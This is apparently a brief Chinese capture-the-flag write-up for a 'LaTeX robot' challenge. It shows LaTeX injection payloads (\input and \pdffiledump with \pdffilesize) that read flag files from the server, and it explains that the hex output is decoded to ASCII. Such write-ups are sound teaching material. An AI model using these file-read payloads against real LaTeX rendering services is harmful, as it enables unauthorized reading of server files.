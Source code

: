 ## LaTeX 机器人

### 纯文本

```latex
\input{/flag1}
```

### 特殊字符混入

分开执行

```latex
\pdffiledump offset 0 length \pdffilesize{/flag2} {/flag2}
\pdffiledump offset 24 length \pdffilesize{/flag2} {/flag2}
```

人力 OCR 并拼接一下得到 `666C6167...` hex 转 ASCII 即可。